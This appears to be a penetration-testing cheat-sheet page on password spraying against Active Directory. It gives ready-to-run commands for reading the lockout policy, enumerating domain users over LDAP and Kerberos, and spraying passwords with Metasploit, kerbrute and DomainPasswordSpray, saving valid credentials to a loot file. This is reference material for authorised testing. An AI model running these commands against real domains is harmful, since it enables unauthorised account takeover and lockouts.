 # Password Spraying




## Password Policy

Enumerate password policy in the domain:

```
$ cme smb 10.10.13.37 -u snovvcrash -p 'Passw0rd!' --pass-pol
PS > Get-ADDefaultDomainPasswordPolicy
Cmd > net accounts
```

Example of `net accounts` output:

| **Name (EN)**                          | **Name (RU)**                             | **Value** |
|----------------------------------------|-------------------------------------------|-----------|
| Minimum password age (days):           | Минимальный срок действия пароля (дней):  | 1         |
| Maximum password age (days):           | Максимальный срок действия пароля (дней): | 90        |
| Minimum password length:               | Минимальная длина пароля:                 | 10        |
| Length of password history maintained: | Хранение неповторяющихся паролей:         | 24        |
| Lockout threshold:                     | Блокировка после ошибок ввода пароля:     | 7         |
| Lockout duration (minutes):            | Длительность блокировки (минут):          | 30        |
| Lockout observation window (minutes):  | Сброс счетчика блокировок через (минут):  | 30        |




## Get Domain Users



### Non-Authenticated

If SMB null sessions are allowed on the DC, an adversary can get a list of all domain users via [RID Cycling](/pentest/infrastructure/ad/rid-cycling.md).



### Authenticated

Query LDAP for all domain user accounts via [GetADUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py):

```
$ GetADUsers.py MEGACORP/snovvcrash:'Passw0rd!' -all -dc-ip 192.168.1.11 | tee ~/ws/log/GetADUsers.out
```

Query LDAP for all domain user accounts via [windapsearch](https://github.com/ropnop/windapsearch):

```
$ python3 windapsearch.py --dc-ip 192.168.1.11 -d megacorp.local -u 'MEGACORP\snovvcrash' -p 'Passw0rd!' -U | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep userPrincipalName | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | awk -F@ '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > ~/ws/enum/all-users.txt
```

Query LDAP for all **active** domain user accounts via [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m custom --filter '(&(objectCategory=person)(objectClass=user)(!(userAccountControl:1.2.840.113556.1.4.803:=2)))' --attrs sAMAccountName,mail,pwdLastSet,lastLogon | tee ~/ws/log/windapsearch.out
$ cat ~/ws/log/windapsearch.out | grep -i samaccountname | grep -v -e '{' -e '}' -e HealthMailbox | awk '{print $2}' | perl -nle 'print if m{^[[:ascii:]]+$}' | sort -u > ~/ws/enum/all-users.txt
```




## MSF

```
msf > use auxiliary/scanner/smb/smb_login
msf > set RHOSTS <DC_IP>
msf > set SMBDomain megacorp.local
msf > set SMBPass Passw0rd!
msf > set USER_FILE /home/snovvcrash/ws/enum/all-users.txt
msf > set VERBOSE False
msf > run
```




## kerbrute

* [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)
* [https://github.com/urbanadventurer/username-anarchy](https://github.com/urbanadventurer/username-anarchy)

Generate a wordlist of common usernames in an appropriate format and validate it against KDC ([doesn't cause](https://github.com/ropnop/kerbrute#user-enumeration) accounts lock out):

```
$ kerbrute userenum -d megacorp.local -o ~/ws/log/kerbrute-userenum.log ~/ws/enum/names.txt
$ cat ~/ws/log/kerbrute-userenum.log | grep VALID | awk '{print $7}' | awk -F@ '{print $1}' > ~/ws/enum/valid-users.txt
```

Perform password spraying for discovered accounts:

```
$ kerbrute -v --delay 100 passwordspray -d megacorp.local -o ~/ws/log/kerbrute-passwordspray-'123456'.log ~/ws/enum/valid-users.txt '123456'
$ cat ~/ws/log/kerbrute-passwordspray-'123456'.log | grep VALID | awk '{print $7}' >> ~/ws/loot/creds.txt
```




## DomainPasswordSpray

* [https://github.com/dafthack/DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

```
PS > Invoke-DomainPasswordSpray -UserList .\all-users.txt -Domain megacorp.local -Password 'Passw0rd!' -OutFile spray-results.txt
```
